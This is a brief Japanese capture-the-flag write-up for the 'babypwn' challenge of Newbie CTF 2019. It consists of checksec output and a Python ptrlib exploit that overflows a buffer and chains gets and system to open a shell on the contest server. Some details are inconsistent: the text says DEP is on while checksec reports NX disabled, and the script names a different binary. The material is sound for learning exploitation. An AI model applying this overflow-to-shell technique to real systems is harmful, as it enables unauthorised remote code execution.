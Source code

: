 # [pwn 590pts] babypwn - Newbie CTF 2019
32ビットでDEP以外無効です。
```
$ checksec -f babypwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   71 Symbols     No       0               4       babypwn
```
単純なBOFとフラグを開く関数があります。私が解いたときにはリモートでcwdが正しく設定されていなかったためフラグは表示されず、ROPで解きました。（後で修正された。）
```python
from ptrlib import *

elf = ELF("./oneshot_onekill")
#sock = Process("./oneshot_onekill")
sock = Socket("prob.vulnerable.kr", 20026)

payload = b"A" * 0x130
payload += p32(elf.plt("gets"))
payload += p32(0x08048399)
payload += p32(elf.section(".bss") + 0x100)
payload += p32(elf.plt("system"))
payload += p32(0x08048399)
payload += p32(elf.section(".bss") + 0x100)
sock.sendline(payload)
sock.sendline("/bin/sh")

sock.interactive()
```

# 感想
簡単ですね。